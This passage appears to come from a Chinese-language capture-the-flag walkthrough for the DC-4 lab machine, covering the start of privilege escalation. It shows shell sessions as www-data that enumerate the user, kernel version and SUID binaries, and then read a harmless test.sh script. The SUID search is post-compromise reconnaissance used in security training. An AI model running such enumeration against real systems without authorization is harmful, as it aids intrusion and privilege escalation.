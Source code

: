 
## 提权

1. 查看权限
    
    ```python
    www-data@dc-4:/usr/share/nginx/html$ whoami
    www-data
    //
    www-data@dc-4:/usr/share/nginx/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    //
    www-data@dc-4:/usr/share/nginx/html$ uname -a
    Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686 GNU/Linux
    ```
    
2. 查找敏感文件
    
    ```python
    www-data@dc-4:/usr/share/nginx/html$ find / -perm -u=s -type f 2>/dev/null
    find / -perm -u=s -type f 2>/dev/null
    /usr/bin/gpasswd
    /usr/bin/chfn
    /usr/bin/sudo
    /usr/bin/chsh
    /usr/bin/newgrp
    /usr/bin/passwd
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/sbin/exim4
    /bin/mount
    /bin/umount
    /bin/su
    /bin/ping
    /home/jim/test.sh
    ```
    
    发现一个存在可执行文件`test.sh`
    
3. 查看`test.sh`内容，应该提示该目录下有东西什么的
    
    ```python
    www-data@dc-4:/home/jim$ cat test.sh
    //
    #!/bin/bash
    for i in {1..5}
    do
     sleep 1
     echo "Learn bash they said."
     sleep 1
     echo "Bash is good they said."
    done
     echo "But I'd rather bash my head against a brick wall."
    ```
    